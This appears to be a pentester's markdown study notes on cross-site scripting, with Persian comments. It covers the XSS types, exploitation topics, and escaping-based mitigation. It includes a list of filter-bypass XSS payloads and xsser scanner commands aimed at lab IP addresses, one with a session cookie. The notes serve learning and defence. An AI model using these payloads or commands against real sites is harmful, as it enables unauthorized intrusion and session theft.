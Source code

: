 # XSS

##
- بعد از تزریق کد اسکریپت، باید به page source code رفته تا اثر تزریق را در صفحه ببینیم، تا رفتار سرور و متعاقبا نحوه bypass آن را متوجه شویم

## Types
- Reflected
- Stored
- DOM Based
  - Nothing send to server (check with Burp), instead use both Javascript functions types simultaneously:
    - source: ```?name=alireza => document.url()```
    - sink: ```getElementById()``` & ```document.write()```

## Exploitation
- Session Hijacking (SEC542-4)
- Fake Page (SEC542-4)
- [BeEF](../Tools/beef.md)

## Mitigation
- Minimize the usage of user input on html
- Escape any untrusted input before inserting it into the page
  - ```&``` => ```&amp;```
  - ```<``` => ```&lt;```
  - ```>``` => ```&gt;```
  - ```"``` => ```&quot;```
  - ```'``` => ```&#x27;```
  - ```/``` => ```&#x2F;```
- [XSS-Prevention-CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 

## Payloads
```Javascript
a'"><script>alert(888)</script>
a"><script>alert(888)</script>
</title><script>alert(888)</script>
'; alert(888)'//
%27;+alert(888);//
a<script>alert(888)</script>
a<SCript>alert(888)</SCript>
a<scri<script>pt>alert(888)</scri</script>pt>
a<img src='aaa' onerror='alert(888)'/>
a<script>prompt(888)</script>
a<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 56, 56, 56, 41))</script>
a";alert(888);//
a";alert(888);"
a';alert(888);//
a';alert(888);'
/"><script>alert(888)</script>
```

## xsser
- POST
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'```
    - XSSer will substitute payload in place of "XSS" string
    - ```p``` shows parameter in POST request (intercept request and copy parameter values from Burp) 
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto```
    - Trying various XSS payloads by using XSSer's ```--auto``` option
  - ```xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"```
    - Using custom XSS payload 
- GET
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote"```
  - ```xsser --url "http://192.94.37.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=jd&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"```
    - Providing basic XSS payload to XSSer
- Authenticated
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0"```
  - ```xsser --url "http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit" --cookie="PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0" --Fp "<script>alert(1)</script>"```
    - Scan the target using basic XSS payload
